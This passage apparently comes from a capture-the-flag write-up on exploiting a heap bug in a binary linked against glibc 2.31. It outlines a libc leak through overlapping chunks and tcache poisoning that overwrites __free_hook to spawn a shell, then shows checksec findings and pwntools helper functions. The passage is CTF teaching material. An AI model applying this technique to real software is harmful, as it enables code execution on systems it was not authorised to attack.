 I found no other vulnerabilities in this bin. But this is more than enough to
get a shell.

# EXPLOITATION

tl;dr

- create fake chunk size 0x420  
- free it to place libc pointers on stack  
- create overlapping chunks to read the pointers -> leak  
- setup 3 chunks, 2 free 1 malloced  
- with 3rd overwrite size of second  
- malloc 2nd and free it again to switch tcache  
- again use 3rd to change 2nd fw to __free_hook  
- overwrite __free_hook  
- free("/bin/sh")

## checksec

if we run the checksec tool on our binary we see that pie is enabled and that
there are no canaries and no full relro.

## libc

if we run strings on the libc and grep for glibc we can see that the libc we
are dealing with is 2.31  
I used patchelf to patch the binary to use the libc and ld provided.

## leaking libc

First we define some helper functions

```  
def create(index,size,content):  
   global p  
   p.sendlineafter(b'do?\n',b'1')  
   p.sendlineafter(b'on?\n',str(index))  
   p.sendlineafter(b'want?\n',str(size))  
   p.sendlineafter(b'content.\n',content)

def display(index):  
   global p  
   p.sendlineafter(b'do?\n',b'2')  
   p.sendlineafter(b'dispaly?\n',str(index))

def reset(index):  
   global p  
   p.sendlineafter(b'do?\n',b'3')  
   p.sendlineafter(b'reset?\n',str(index))  
  
```
